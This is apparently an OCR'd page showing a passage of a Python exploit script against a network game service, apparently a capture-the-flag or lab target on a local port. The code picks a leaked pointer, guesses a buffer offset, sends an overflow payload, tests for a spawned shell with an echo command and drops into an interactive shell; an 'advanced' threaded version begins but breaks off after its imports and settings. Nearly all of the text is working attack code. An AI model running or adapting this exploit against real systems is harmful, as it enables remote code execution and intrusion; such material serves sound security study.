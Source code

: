 ```python
        return
    
    print("[*] Candidate leaked addresses:")
    for addr in candidates:
        print(hex(addr))
    
    # For testing, choose one candidate pointer.
    candidate_ptr = random.choice(candidates)
    print("[*] Using candidate pointer:", hex(candidate_ptr))
    
    # 2. Choose an offset.
    # Because the vulnerable buffer size and offset are randomized, choose an offset from a typical range.
    candidate_offset = random.randint(104, 170)
    print("[*] Using candidate offset:", candidate_offset)
    
    # 3. Wait for the next prompt.
    prompt = recv_until(s, b"Select a power-up (Speed/Strength):")
    print("[*] Received second prompt:")
    print(prompt.decode(errors="ignore"))
    
    # 4. Build and send the overflow payload.
    payload = build_overflow_payload(candidate_offset, candidate_ptr)
    s.sendall(payload)
    print("[*] Overflow payload sent.")
    
    # 5. Give the server a moment to process and spawn a shell.
    time.sleep(0.5)
    
    # 6. Verify if the shell is spawned by sending a test command.
    s.sendall(b"echo HAX\n")
    time.sleep(0.5)
    resp = s.recv(4096).decode(errors="ignore")
    if "HAX" in resp:
        print("[+] Shell appears to be spawned!")
        interactive_shell(s)
    else:
        print("[-] No shell detected. The overflow may have failed.")
        s.close()

if __name__ == "__main__":
    main()
```

An advanced version of this script (which we'll use to demonstrate a successful condition) can be found here:

```python
#!/usr/bin/env python3
import socket
import struct
import time
import re
import random
import sys
import threading

HOST = "127.0.0.1"  # Change as needed.
PORT = 9999

# Global event to signal that a shell was obtained.
shell_found = threading.Event()
# Lock to protect the global socket variable.
socket_lock = threading.Lock()
```